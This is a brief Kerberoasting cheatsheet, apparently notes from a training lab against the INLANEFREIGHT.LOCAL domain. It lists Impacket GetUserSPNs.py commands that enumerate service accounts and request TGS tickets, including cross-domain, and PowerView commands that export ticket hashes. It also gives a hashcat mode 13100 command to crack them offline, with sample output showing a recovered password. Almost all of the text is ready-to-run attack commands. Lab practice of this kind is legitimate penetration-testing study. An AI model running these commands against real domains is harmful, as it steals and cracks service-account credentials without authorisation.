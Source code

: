## Cheatsheet

### roasting from linux

`LIST KERBERAOSTABNLE ACCOUNTS`
```
$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend 
```

`kerberoast all accounts`
```
$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request
```

`### Requesting single TGS`
```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user  SAPService -outputfile SAPSERVICE_TGS
```


`specify the domain for cross domain/forest kerberoasting`
```shell-session
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```

 `KERBEROAST DIFFERENT DOMAIN`
```
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL  INLANEFREIGHT.LOCAL/forend -request-user  sapsso -request  -outputfile sspoTGS

```

`Cracking rc4 TGSs with Hashcat`
```
hashcat -m 13100 <tgs_file> <dictionary_path>
```

Example:
```hashcat

hashcat -m 13100 tgs.ticket /usr/share/wordlists/rockyou.txt

<SNIP>
$krb5tgs$23$*SAPService$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/SAPService*$607cd881e31ff8651ff745f972c7af9c$70912a62c75e456e5065e72c9b5029442078aa1cc:!SapperFi2
```

## Roasting from windows

 `Enumerate SPN Accounts`
```powershell-session
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname
```
From here, we could target a specific user and retrieve the TGS ticket in Hashcat format.
```powershell-session
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
we can export all tickets to a CSV file for offline processing.
```powershell-session
PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```
